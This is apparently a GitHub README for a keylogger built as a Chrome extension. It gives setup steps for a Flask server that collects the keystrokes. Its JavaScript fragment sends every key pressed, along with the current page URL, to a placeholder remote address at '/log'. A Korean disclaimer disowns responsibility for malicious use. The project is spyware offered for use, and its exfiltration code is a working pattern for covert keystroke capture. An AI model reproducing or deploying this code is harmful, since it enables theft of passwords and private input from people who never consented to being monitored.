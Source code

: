 #  Keylogger Chrome Extensions 

### Python flask server

`pip install flask`

`pip install flask_cors`

`pip insatll pyopenssl`

SSL 자체 인증 받는법[https://blog.miguelgrinberg.com/post/running-your-flask-application-over-https]


### Main js code

```js
  ...
  xhr.open('POST', 'https://youradress:8080/log');
  xhr.setRequestHeader('Content-Type', 'application/json;charset=UTF-8');
  xhr.send(JSON.stringify({
    key: event.key,
    window: window.location.href,
    ...
 ```
 # warning
 
 1.**악의적으로 사용할시 책임지지 않습니다.**
 
 2.네트워크를 동일한 네트워크를 사용해야 키 기록을 받을수 있습니다.
 
 
 
 
